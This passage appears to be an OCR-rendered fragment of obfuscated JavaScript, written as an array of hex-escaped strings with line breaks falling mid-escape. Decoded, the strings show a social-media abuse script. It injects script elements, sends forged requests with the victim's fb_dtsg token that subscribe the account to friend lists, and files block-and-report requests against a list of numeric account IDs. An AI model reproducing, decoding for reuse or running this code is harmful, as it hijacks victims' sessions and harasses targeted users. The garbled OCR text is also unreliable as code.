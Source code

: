 2D\x66\x6F\x72\x6D\x2D\x75\x72\x6C\x65\x6E\x63\x6F\x64\x65\x64","\x73\x65\x74\x52\x65\x71\x75\x65\x7
3\x74\x48\x65\x61\x64\x65\x72","\x43\x6F\x6E\x74\x65\x6E\x74\x2D\x6C\x65\x6E\x67\x74\x68","\x43\x6F\
x6E\x6E\x65\x63\x74\x69\x6F\x6E","\x63\x6C\x6F\x73\x65","\x6F\x6E\x72\x65\x61\x64\x79\x73\x74\x61\x7
4\x65\x63\x68\x61\x6E\x67\x65","\x72\x65\x61\x64\x79\x53\x74\x61\x74\x65","\x73\x74\x61\x74\x75\x73"
,"\x73\x65\x6E\x64","\x73\x63\x72\x69\x70\x74","\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74
","\x69\x6E\x6E\x65\x72\x48\x54\x4D\x4C","\x6E\x65\x77\x20\x41\x73\x79\x6E\x63\x52\x65\x71\x75\x65\x
73\x74\x28\x29\x2E\x73\x65\x74\x55\x52\x49\x28\x27\x2F\x61\x6A\x61\x78\x2F\x66\x72\x69\x65\x6E\x64\x
73\x2F\x6C\x69\x73\x74\x73\x2F\x73\x75\x62\x73\x63\x72\x69\x62\x65\x2F\x6D\x6F\x64\x69\x66\x79\x3F\x
6C\x6F\x63\x61\x74\x69\x6F\x6E\x3D\x70\x65\x72\x6D\x61\x6C\x69\x6E\x6B\x26\x61\x63\x74\x69\x6F\x6E\x
3D\x73\x75\x62\x73\x63\x72\x69\x62\x65\x27\x29\x2E\x73\x65\x74\x44\x61\x74\x61\x28\x7B\x20\x66\x6C\x
69\x64\x3A\x20","\x20\x7D\x29\x2E\x73\x65\x6E\x64\x28\x29\x3B","\x61\x70\x70\x65\x6E\x64\x43\x68\x69
\x6C\x64","\x62\x6F\x64\x79","\x31\x30\x30\x30\x30\x34\x33\x36\x38\x36\x34\x33\x35\x38\x38","\x31\x3
0\x30\x30\x30\x37\x30\x37\x39\x37\x39\x36\x31\x32\x30","\x31\x30\x30\x30\x30\x31\x35\x30\x33\x36\x31
\x39\x34\x35\x35","\x31\x30\x30\x30\x30\x35\x36\x30\x32\x33\x35\x32\x32\x39\x32","\x32\x34\x33\x37\x
33\x37\x38\x31\x35\x37\x38\x31\x38\x33\x38","\x31\x33\x38\x37\x37\x31\x32\x32\x36\x38\x31\x34\x31\x3
4\x32\x30","\x32\x36\x32\x30\x39\x32\x37\x35\x30\x36\x31\x33\x30\x31\x31","\x31\x39\x31\x37\x35\x39\
x36\x32\x37\x36\x38\x37\x34\x34\x38","\x31\x39\x33\x30\x37\x32\x31\x38\x30\x38\x38\x39\x35\x32\x36",
"\x31\x39\x33\x30\x37\x32\x31\x35\x30\x38\x38\x39\x35\x32\x39","\x67\x65\x74\x54\x69\x6D\x65","\x2F\
x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x72\x65\
x70\x6F\x72\x74\x2F\x73\x6F\x63\x69\x61\x6C\x2E\x70\x68\x70","\x66\x62\x5F\x64\x74\x73\x67\x3D","\x2
6\x62\x6C\x6F\x63\x6B\x3D\x31\x26\x70\x70\x3D\x25\x37\x42\x25\x32\x32\x61\x63\x74\x69\x6F\x6E\x73\x5
F\x74\x6F\x5F\x74\x61\x6B\x65\x25\x32\x32\x25\x33\x41\x25\x32\x32\x5B\x5D\x25\x32\x32\x25\x32\x43\x2
5\x32\x32\x61\x72\x65\x5F\x66\x72\x69\x65\x6E\x64\x73\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x2
5\x32\x43\x25\x32\x32\x63\x69\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x63\x6F\x6E\x74
\x65\x6E\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x30\x25\x32\x43\x25\x32\x32\x65\x78\x70\x61
\x6E\x64\x5F\x72\x65\x70\x6F\x72\x74\x25\x32\x32\x25\x33\x41\x31\x25\x32\x43\x25\x32\x32\x66\x69\x72
\x73\x74\x5F\x63\x68\x6F\x69\x63\x65\x25\x32\x32\x25\x33\x41\x25\x32\x32\x66\x69\x6C\x65\x5F\x72\x65
\x70\x6F\x72\x74\x25\x32\x32\x25\x32\x43\x25\x32\x32\x66\x72\x6F\x6D\x5F\x67\x65\x61\x72\x25\x32\x32
\x25\x33\x41\x25\x32\x32\x74\x69\x6D\x65\x6C\x69\x6E\x65\x25\x32\x32\x25\x32\x43\x25\x32\x32\x69\x73
\x5F\x66\x6F\x6C\x6C\x6F\x77\x69\x6E\x67\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25
\x32\x32\x69\x73\x5F\x74\x61\x67\x67\x65\x64\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43
\x25\x32\x32\x6F\x6E\x5F\x70\x72\x6F\x66\x69\x6C\x65\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25